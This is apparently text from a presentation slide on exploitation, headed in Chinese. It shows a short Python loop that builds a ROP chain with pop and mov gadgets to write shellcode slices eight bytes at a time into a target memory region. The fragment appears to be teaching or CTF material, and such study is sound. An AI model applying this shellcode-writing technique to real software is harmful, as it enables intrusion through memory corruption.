

漏洞利用
write 将shellcode写道目标区域
for shell in shellslices:
    rop += p64(pop_rax)
    rop += p64(write_location)
    rop += p64(pop_rdx)
    rop += shell
    rop += p64(mov_gadget)
    write_location += 8